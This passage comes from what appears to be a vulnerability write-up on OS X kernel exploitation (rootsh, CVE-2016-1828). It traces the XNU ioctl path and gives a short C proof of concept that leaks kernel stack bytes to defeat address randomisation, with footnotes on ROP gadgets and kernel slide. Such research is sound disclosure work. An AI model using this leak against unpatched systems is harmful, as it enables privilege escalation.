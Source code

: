 `soo_ioctl` itself is used in the declaration of the [`socketops`][socketops]
structure:

{% highlight C %}
const struct fileops socketops = {
    DTYPE_SOCKET,
    soo_read,
    soo_write,
    soo_ioctl,
    soo_select,
    soo_close,
    soo_kqfilter,
    soo_drain
};
{% endhighlight %}

This structure associates socket objects in the kernel with the implementations
of common file operations like `read`, `write`, and `ioctl`. The call graph
suggests it should be possible to reach `if_clone_list` by calling the
[`ioctl`][ioctl] system call on a socket. To determine which ioctl command to
pass, we can look at the source of `ifioctl`:

{% highlight C %}
int
ifioctl(struct socket *so, u_long cmd, caddr_t data, struct proc *p)
{
...
    switch (cmd) {
    case OSIOCGIFCONF32:            /* struct ifconf32 */
    case SIOCGIFCONF32:             /* struct ifconf32 */
    case SIOCGIFCONF64:             /* struct ifconf64 */
    case OSIOCGIFCONF64:            /* struct ifconf64 */
        error = ifioctl_ifconf(cmd, data);
        goto done;

    case SIOCIFGCLONERS32:          /* struct if_clonereq32 */
    case SIOCIFGCLONERS64:          /* struct if_clonereq64 */
        error = ifioctl_ifclone(cmd, data);
        goto done;
...
    }
...
}
{% endhighlight %}

Here we see that the `SIOCIFGCLONERS` command should be used with an
`if_clonereq` structure.

[socketops]: http://www.opensource.apple.com/source/xnu/xnu-3248.20.55/bsd/kern/sys_socket.c
[ioctl]: https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man2/ioctl.2.html

Given the above, it should be possible to leak parts of the kernel stack into
user space with the following sequence of system calls:

{% highlight C %}
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
char buffer[IFNAMSIZ];
struct if_clonereq ifcr = {
    .ifcr_count  = 1,
    .ifcr_buffer = buffer,
};
int err = ioctl(sockfd, SIOCIFGCLONERS, &ifcr);
printf("0x%016llx\n", *(uint64_t *)(buffer + 8));
{% endhighlight %}


[10.11.5]: https://support.apple.com/en-us/HT206567
[10.11.4]: https://support.apple.com/en-us/HT206167
[rootsh]: https://github.com/bazad/rootsh
[CVE-2016-1828]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1828
[CVE-2016-1758]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1758
[Yosemite VM]: http://sqar.blogspot.de/2014/10/installing-yosemite-in-virtualbox.html
[XNU source]: http://opensource.apple.com/source/xnu/xnu-2782.40.9/
[IOKit]: https://developer.apple.com/library/mac/documentation/DeviceDrivers/Conceptual/IOKitFundamentals/Introduction/Introduction.html
[libkern]: https://developer.apple.com/library/mac/documentation/DeviceDrivers/Conceptual/WritingDeviceDriver/CPluPlusRuntime/CPlusPlusRuntime.html
[libkern classes]: https://developer.apple.com/library/mac/documentation/DeviceDrivers/Conceptual/WritingDeviceDriver/ContainerClasses/Libkern_Classes.html
[OSUnserializeBinary]: http://opensource.apple.com/source/xnu/xnu-3248.20.55/libkern/c++/OSSerializeBinary.cpp
[vtable]: https://en.wikipedia.org/wiki/Virtual_method_table
[SMEP]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[SMAP]: https://lwn.net/Articles/517475/
[ROP]: https://cseweb.ucsd.edu/~hovav/dist/rop.pdf
[Mach-O]: https://developer.apple.com/library/mac/documentation/DeveloperTools/Conceptual/MachORuntime/index.html
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[copyout]: https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man9/copyout.9.html
[if_clone_list]: http://opensource.apple.com/source/xnu/xnu-3248.20.55/bsd/net/if.c
[proc]: http://opensource.apple.com/source/xnu/xnu-3248.20.55/bsd/sys/proc_internal.h
[ucred]: http://opensource.apple.com/source/xnu/xnu-3248.20.55/bsd/sys/ucred.h
[ROPgadget]: https://github.com/JonathanSalwan/ROPgadget
[IOServiceGetMatchingServices]: https://developer.apple.com/library/mac/documentation/IOKit/Reference/IOKitLib_header_reference/index.html#//apple_ref/c/func/IOServiceGetMatchingServices
[IOServiceGetMatchingServices source]: http://opensource.apple.com/source/IOKitUser/IOKitUser-1179.20.6/IOKitLib.c
[is_io_service_get_matching_services_bin source]: http://opensource.apple.com/source/xnu/xnu-3248.20.55/iokit/Kernel/IOUserClient.cpp
[^1]: Apple has since released Security Update 2016-002 for Yosemite, which bumped the build number up to 14F1713. Just like El Capitan, this new build is missing the ROP gadgets used by rootsh. At the time of this writing, however, the App Store is still distributing version 14F27, which is vulnerable to rootsh without modification.
[^2]: The freed `OSNumber` associated with `a` is not used to fulfill the allocation of `b`'s `OSBoolean` because `OSBoolean`s are never allocated: there are only two distinct values, and all references to them are shared.
[^3]: Numerous sources online suggest that the kernel is loaded into one of 256 possible locations. However, empirical testing on a 2011 Macbook Pro running OS X Yosemite 10.10.5 suggests that, at least on some systems and in some configurations, there may be closer to 384 possible locations.
[^4]: This hardcoded reference address only works on 10.10.5 build 14F27; in order to find the kernel slide on another version of OS X we would need a new reference pointer, which might not even be in the same function.